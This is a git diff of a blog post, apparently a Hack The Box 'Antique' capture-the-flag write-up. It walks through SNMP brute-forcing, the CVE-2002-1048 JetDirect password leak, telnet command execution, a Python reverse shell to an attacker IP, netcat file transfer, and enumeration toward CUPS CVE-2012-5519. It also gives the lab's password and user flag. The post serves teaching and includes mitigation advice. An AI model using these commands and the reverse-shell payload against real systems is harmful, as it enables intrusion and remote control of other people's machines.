

Antique Post Updates

Changed region(s): [[0.0, 0.2571, 1.0, 1.0], [0.0, 0.0286, 1.0, 0.2286]]

diff --git a/_posts/HTB/2022-05-12-antique.md b/_posts/HTB/2022-05-12-antique.md
@@ -8,6 +8,11 @@ header:
 tags:
   - Easy
   - Linux Host
+  - Telnet
+  - SNMP
+  - Printer
+  - CUPS
+  - Internal
 ---
 
 ![Antique Logo](/assets/images/HTB/antique/antique.png)
@@ -20,7 +25,7 @@ to "VIP" and download the .ovpn package (yes, even as a paid user, you must togg
 
 ## Scanning
 
-Go ahead and run your favorite port scan. I will use NMap :  
+Go ahead and run your favorite port scanner. I will use NMap :  
 
 ### NMap Results  
 
@@ -38,6 +43,10 @@ PORT   STATE SERVICE VERSION
 |_    JetDirect
 ```  
 
+If we were doing a real penetration test, of course we would look far more in-depth into our discovery/enumeration, however, it is still a good rule-of-thumb to scan both TCP and UDP.  
+
+For many of the *easy* HTB challenges, UDP service enumeration is not necessary, but on this box, it is relevant.  
+
 ```bash
 UDP PORT SCAN:
 sudo nmap -sU 10.10.11.107 --open --top-ports=1000 | tee nmap-udp.log
@@ -49,35 +58,20 @@ PORT      STATE         SERVICE
 1080/udp  open|filtered socks
 5353/udp  open|filtered zeroconf
 9001/udp  open|filtered etlservicemgr
-16545/udp open|filtered unknown
-18081/udp open|filtered unknown
-18980/udp open|filtered unknown
-20249/udp open|filtered unknown
-21524/udp open|filtered unknown
-23980/udp open|filtered unknown
-30263/udp open|filtered unknown
-33030/udp open|filtered unknown
-34579/udp open|filtered unknown
-35777/udp open|filtered unknown
-44185/udp open|filtered unknown
-45818/udp open|filtered unknown
-47772/udp open|filtered unknown
-49166/udp open|filtered unknown
-49176/udp open|filtered unknown
-49197/udp open|filtered unknown
-51586/udp open|filtered unknown
 ```  
 
 ## Enumeration  
 
-It looks like we have a printer JetDirect running on port 23 - Telnet && snmp is also open on UDP 161.  
+It looks like we have a printer JetDirect running on port 23 - Telnet && SNMP is also open on UDP 161.  
 Let's try to get some more information on these services.  
 
 ### SNMP - UDP 161  
 
 NMap has many useful scripts for enumeration located in /usr/share/nmap/scripts. Normally if I am trying to run an NMap script on a target, I print all the relevant ones likeso :  
 
->ls -la /usr/share/nmap/scripts | grep [SERVICE]
+```bash
+ls -la /usr/share/nmap/scripts | grep [SERVICE]
+```  
 
 ```bash
 ┌──(kali㉿kali)-[~]
@@ -98,7 +92,10 @@ NMap has many useful scripts for enumeration located in /usr/share/nmap/scripts.
 
 Let's try using snmp-brute.nse script. According to [NMAP.ORG](https://nmap.org/nsedoc/scripts/snmp-brute.html), this script attempts to find SNMP community strings via brute-force guessing.  
 
-SNMP community strings are unencrypted and only used in SNMPv1 & SNMPv2, prior to SSL/TLS. They act as a username or password that is shared to authenticate SNMP management stations to a device.  
+SNMP community strings are unencrypted and only used in SNMPv1 & SNMPv2, prior to SSL/TLS. They act as a password that is shared to authenticate SNMP management stations to a device rather than logging in via username/password, which is required in SNMPv3.  
+
+The other main difference between SNMPv1/2 and SNMPv3 is that traffic is encrypted in the latter, making it harder to steal information if someone is able to capture any packets.  
+
 ```bash
 ┌──(kali㉿kali)-[~]
 └─$ sudo nmap -sU --script=snmp-brute.nse 10.10.11.107 -p 161
@@ -129,7 +126,41 @@ PORT    STATE SERVICE
 |_  snmp-Trap - Valid credentials
 ```  
 
-#Insert about exploits & snmpget description
+### HP JetDirect  
+With 'JetDirect' as a keyword, I did a search on public vulnerabilities : 
+
+![JetDirect Exploits List](/assets/images/HTB/antique/exploits.png)  
+
+Well, just based on the service name returned by NMap, we know we are dealing with a printer. Also, some of these exploits don't have relevance (FTP not running, etc.), so I chose to check out 22319.txt first :  
+
+```bash
+searchsploit -m 22319
+cat searchsploit 22319.txt
+
+HP JetDirect J2552A/J2552B/J2591A/J3110A/J3111A/J3113A/J3263A/300.0 X Printer SNMP JetAdmin Device Password Disclosure Vulnerability
+
+source: https://www.securityfocus.com/bid/7001/info
+
+A problem with JetDirect printers could make it possible for a remote user to gain administrative access to the printer.
+
+It has been reported that HP JetDirect printers leak the web JetAdmin device password under some circumstances.
+By sending an SNMP GET request to a vulnerable printer, the printer will return the hex-encoded device password to the requester.
+This could allow a remote user to access and change configuration of the printer.
+
+C:\>snmputil get example.printer public .1.3.6.1.4.1.11.2.3.9.1.1.13.0
+```  
+
+Okay, well this looks extremely easy to exploit and could apply to our printer, but the exploit code utilizes **snmputil** to send a GET request over SNMP via MS Windows. Since I am running Kali, I would prefer to use **snmpget** which serves this same function.  
+ 
+Among other things, *snmpget* accepts:
+- An SNMP version paramter (-v)
+- A community string parameter (-c)
+- The network's IP
+- The OID (Object Identifier) of the device  
+
+> Note : SNMP OID's are used to define a device and usually hard-coded and can be found in the device model's manual online. They resemble multiple digits separated by periods (.1.3.6.1.4, etc).  
+
+> Additionally, the MIB (Management Information Base) is used to translate OID's into readable text, such as '*net-printer*'  
 
 ```bash
 ──(kali㉿kali)-[~/Documents/HTB/Antique]
@@ -138,12 +169,19 @@ iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 2
 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
 ```  
 
-This is a hex dump of the Telnet password, let's decipher it really quick. I used CyberChef to convert it to plain text :  
+Hey, it worked! But why? OID's not only specify devices, they serve as an identifier for many objects. If we Google '*Jet Direct MIB*' we find a [list](https://www.circitor.fr/Mibs/Html/J/JETDIRECT3-MIB.php) of all the Jet Direct OID's. Doing a search on this list for the OID we used in our exploit, we see it is identified as '*gdPasswords*' :  
+
+![JetDirect MIB List](/assets/images/HTB/antique/jetdirect-mib.png)  
+
+Anyways, this is a hex dump of the password for JetDirect which we determined is running on Telnet. I used [CyberChef](https://gchq.github.io/CyberChef/) to quickly convert it to plain text :  
 
 ![Hex Deciphered in CyberChef](/assets/images/HTB/antique/pass-hex.png)  
 
+Looks like that first portion is our password.  
+
 ### Telnet - TCP 23  
- Let's first try to connect to this JetDirect printer via telnet :  
+
+Let's first try to connect to this JetDirect printer via telnet :  
 
 ```bash
 ┌──(kali㉿kali)-[~/Documents/HTB/Antique]
@@ -158,6 +196,8 @@ Password: password
 Invalid password
 Connection closed by foreign host.
 ```  
+
+## CVE-2002-1048 Exploitation
 
 We can use the password we grabbed from SNMP to login here :  
 
@@ -174,4 +214,163 @@ Password: P@ssw0rd@123!!123
 
 Please type "?" for HELP
 ```  
+### Mitigation  
+
+Alright, we successfully exploited CVE-2002-1048, leading to a CWE-200: Exposure of Sensitive Information to an Unauthorized Actor.  
+
+The best way to mitigate this vulnerability is to upgrade to SNMPv3 which is far more secure, which may not be possible without upgrading to newer hardware, since SNMPv3 is likely not compatible on this printer.  
+
+Additionally, Telnet is OLD (developed 1969) and intrinsically flawed in enabling attackers to obtain sensitive information and should likely not be used on a public-facing server.  
+
+## Post-Exploit Enumeration : lpadmin  
+
+Now that we have a valid login and a means to do so, we can explore this machine for a lateral movement or some jumping point.  
+
+Typing **?**, we see that by using the **exec** command, we can execute commands directly on the server.  
+
+```bash
+> ?
+
+To Change/Configure Parameters Enter:
+Parameter-name: value <Carriage Return>
+
+Parameter-name Type of value
+ip: IP-address in dotted notation
+subnet-mask: address in dotted notation (enter 0 for default)
+default-gw: address in dotted notation (enter 0 for default)
+syslog-svr: address in dotted notation (enter 0 for default)
+idle-timeout: seconds in integers
+set-cmnty-name: alpha-numeric string (32 chars max)
+host-name: alpha-numeric string (upper case only, 32 chars max)
+dhcp-config: 0 to disable, 1 to enable
+allow: <ip> [mask] (0 to clear, list to display, 10 max)
+
+addrawport: <TCP port num> (<TCP port num> 3000-9000)
+deleterawport: <TCP port num>
+listrawport: (No parameter required)
+
+exec: execute system commands (exec id)
+exit: quit from telnet session
+```  
+
+Executing the **id** command on the server tells us we are lpadmin :  
+
+```bash
+> exec id
+uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
+> exec hostname
+antique
+> exec pwd
+/var/spool/lpd
+```  
+
+### User Flag  
+
+So, let's start by getting our flag :  
+
+```bash
+> exec ls
+telnet.py
+user.txt
+> exec cat user.txt
+83d947d7e613d3f865daa424e085f84d
+```  
+
+### Better Shell  
+
+So, entering each command individually is kind of annoying, and we don't always get the full output of each command. So, using your favorite out of a multitude of options, its time to get a reverse shell.  
+
+I copied one directly from this [payload cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) for a Python reverse shell. However, I had to change **python** to **python3** because that is the version running on this box.  
+
+If you aren't sure of the available versions just check like this :  
+
+```bash
+exec ls -la /usr/bin/ | grep python
+```  
+
+Here is the payload I used :  
+
+```bash
+export RHOST="10.10.14.42";export RPORT=4242;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
+```  
+
+![Python Reverse Shell over Telnet](/assets/images/HTB/antique/lp-shell.png)  
+
+### Linpeas 
+
+I used netcat to transfer linpeas.sh from my local system and run it :  
+
+```bash
+Antique Machine:
+nc -lp 9999 > linpeas.sh | sh | tee linpeas.log
+
+My Machine:
+nc -w 3 10.10.11.107 -p 9999 < linpeas.sh
+```  
+
+I did some normal enumeration while/after running Linpeas, such as :  
+```bash
+kernel version & architecture : 
+uname -a
+cat /etc/issue     # OS info
+cat /etc/*-release     #OS Version
+
+commands I can run as sudo : 
+sudo -l		#need a password for lpadmin to execute
+
+looking for sensitive file read/write permissions : 
+find / -writable -type d 2>/dev/null     #identify files w/ insec. perms. in root dir. (/)
+
+examining running processes : 
+ps axu		#lists all (including privileged) processes with/without a tty (ax)
+ps -eF		#displays all ps
+ps -eF | grep lp		#greps lpadmin's ps's
+
+crontab: 
+ls -lah /etc/cron*     #displays all cron jobs where * is frequency (.daily, .weekly, etc)
+cat /etc/crontab     #sys admins often add their own tasks in this file, check for insec. perm.
+```  
+
+Etc., etc. until I started looking into active ports and services, which is where I found something running internally, port 631.  
+
+## Post-Exploit Enumeration: CUPS Service  
+
+Running **ss -anp**, which shows all active connections/ports displayed one unusual one, which linpeas also picked up :  
+
+![Active Ports](/assets/images/HTB/antique/ports.png)  
+
+We see something running locally on port 631 so I curl'd it to see if we could get the header :  
+
+```bash
+$ curl localhost:631
+curl localhost:631
+<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
+<HTML>
+<HEAD>
+        <META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=utf-8">
+        <TITLE>Home - CUPS 1.6.1</TITLE>
+        <LINK REL="STYLESHEET" TYPE="text/css" HREF="/cups.css">
+        <LINK REL="SHORTCUT ICON" HREF="/images/cups-icon.png" TYPE="image/png">
+</HEAD>
+```  
+
+We receive an HTML page and it has a CUPS version number in the header : CUPS 1.6.1  
+
+Doing a little enumeration thanks to Linpeas, we can find this version number in /var/cache/cups/job.cache as well :  
+
+![Linpeas Readables](/assets/images/HTB/antique/cups-lin.png)  
+
+Searching online, we find that CUPSv1.6.1 is vulnerable to a Root File Read exploit.  
+
+### CVE-2012-5519 Exploitation  
+
+A quick definition from [MITRE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-5519) :  
+
+```
+CUPS 1.4.4, when running in certain Linux distributions such as Debian GNU/Linux, stores the web interface administrator key 
+in /var/run/cups/certs/0 using certain permissions, which allows local users in the lpadmin group to read or write arbitrary 
+files as root by leveraging the web interface.
+```  
+
+We are going to employ Metasploit for this one to save time (though, often I try not to).  
 
